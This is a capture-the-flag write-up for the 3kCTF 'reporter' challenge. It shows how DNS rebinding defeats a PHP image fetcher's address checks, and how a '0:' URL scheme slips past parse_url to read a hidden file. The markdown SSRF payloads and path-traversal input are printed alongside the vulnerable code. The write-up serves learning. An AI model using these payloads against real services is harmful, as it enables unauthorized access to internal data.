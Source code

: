 # reporter - 498pts - 4 solves 
Author: rekter0

> Reporter is an online markdown reporting tool.
> it's free to use for everyone.
> there's a secret report we need located [here](http://reporter.3k.ctf.to/secret_report)
> 
> [source](./src)

---

## Walkthrough
The application provide markdown hosting service and it will automatically download and embed external images (or any files) to the 'report'.

There are 4 buttons on the interface: `Edit`, `Preview`, `Save`, and `Deliver`.

The first target of the challenge is to access the `secret_report`.

```html
curl http://reporter.3k.ctf.to/secret_report
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
...
```
Well, knew that.

### Exploiting TOCTOU of the domain checking

Interesting things happen in [backend.php](./src/backend.php). 
```php
if(@$_POST['deliver']){
	$thisDoc=file_get_contents($dir.'/file.html');
	$images = preg_match_all("/<img src=\"(.*?)\" /", $thisDoc, $matches);
	foreach ($matches[1] as $key => $value) {
		$thisDoc = str_replace($value , "data:image/png;base64,".base64_encode(fetch_remote_file($value)) , $thisDoc ) ;
  }
```

When user click on the `deliver` button it will get the saved document, `fetch_remote_file` and embed it to the report with `base64`. Therefore users can embed images from external image hosting sites such as imgur etc.

How about embedding the `secret_report`? It does not work as it do a long list of checks:
```php
function fetch_remote_file($url) {
    $config['disallowed_remote_hosts'] = array('localhost');
    $config['disallowed_remote_addresses'] = array("0.0.0.0/8", "10.0.0.0/8", "100.64.0.0/10", "127.0.0.0/8", "169.254.0.0/16", "172.16.0.0/12", "192.0.0.0/29", "192.0.2.0/24", "192.88.99.0/24", "192.168.0.0/16", "198.18.0.0/15", "198.51.100.0/24", "203.0.113.0/24", "224.0.0.0/4", "240.0.0.0/4",);

    // ...

    $addresses = get_ip_by_hostname($url_components['host']);
    $destination_address = $addresses[0];

    // ... checks if the destination_address is in the disallowed list ...

    $opts = array('http' => array('follow_location' => 0,));
    $context = stream_context_create($opts);
    return file_get_contents($url, false, $context);
}
function get_ip_by_hostname($hostname) {
    $addresses = @gethostbynamel($hostname);
    if (!$addresses) {
      // ... more attempts to get dns A records ...
    }
    return $addresses;
}
```

If we change the DNS record very quickly, which the DNS server return `1.1.1.1` at `get_ip_by_hostname` when it do the checking, and we return `127.0.0.1` at `file_get_contents` we can access the `localhost` and maybe we can get the `secret_report`.

Therefore I wrote a [script](./dnsrebind.js) to act as a nameserver and give different responses.

```bash
$ dig +short 4kctf.example.com @8.8.8.8
1.1.1.1
$ dig +short 4kctf.example.com @8.8.8.8
127.0.0.1
```

payload
```
![](http://4kctf.example.com/secret_report/)
```

The result is a file listing with two files:
```
3ac45ca05705d39ed27d7baa8b70ecd560b69902.php
secret2

63b4bacc828939706ea2a84822a4505efa73ee3e.php
not much here
```

The `3ac45ca05705d39ed27d7baa8b70ecd560b69902.php` is suspicious as it have 50 bytes but only 7 bytes returned from server. Maybe the flag is there.

### Wonders of PHP: empty("0") == true

I crafted this payload to read the file and get the flag.
```
![](0:/../secret_report/3ac45ca05705d39ed27d7baa8b70ecd560b69902.php)
```

Back to the `backend.php` `fetch_remote_file`, besides DNS checking it also `parse_url` and checks `scheme`, `port`, etc. 
```php
function fetch_remote_file($url) {
    // ...
    $url_components = @parse_url($url);
    if (!isset($url_components['scheme'])) {
        return false;
    }
    if (@($url_components['port'])) {
        return false;
    }
    if (!$url_components) {
        return false;
    }
    if ((!empty($url_components['scheme']) && !in_array($url_components['scheme'], array('http', 'https')))) {
        return false;
    }
    if (array_key_exists("user", $url_components) || array_key_exists("pass", $url_components)) {
        return false;
    }
    // ...
    return file_get_contents($url, false, $context);
```

`parse_url` will parse as follows
```
array(2) {
  ["scheme"]=>
  string(1) "0"
  ["path"]=>
  string(62) "/../secret_report/3ac45ca05705d39ed27d7baa8b70ecd560b69902.php"
}
```
Where the `scheme` will return `true` for `isset` and `true` for `empty` (`empty("0") == true`), and for `file_get_contents` it will recognize `0:` as a folder and `0:/../` as current folder. 

## Related
- [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)
